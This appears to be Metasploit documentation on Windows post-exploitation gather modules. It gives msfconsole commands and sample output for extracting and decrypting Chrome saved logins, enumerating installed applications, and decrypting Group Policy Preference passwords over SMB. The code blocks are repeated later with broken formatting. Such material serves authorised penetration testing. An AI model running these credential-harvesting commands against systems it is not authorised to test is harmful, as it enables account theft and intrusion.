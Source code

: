 ## Post Modules
You can search for post gather modules within msfconsole:
```msf
msf6 > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
```

### Usage
Within a msf prompt you can use the `use` command followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:
```msf
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >
```

Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:
```msf
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
```

## Useful modules
### Windows GPP Credentials
This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked
```
use post/windows/gather/credentials/gpp
run session=-1
```

`msf
msf6 > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
`

`msf
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >
`

`msf
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
`

`
use post/windows/gather/credentials/gpp
run session=-1
`

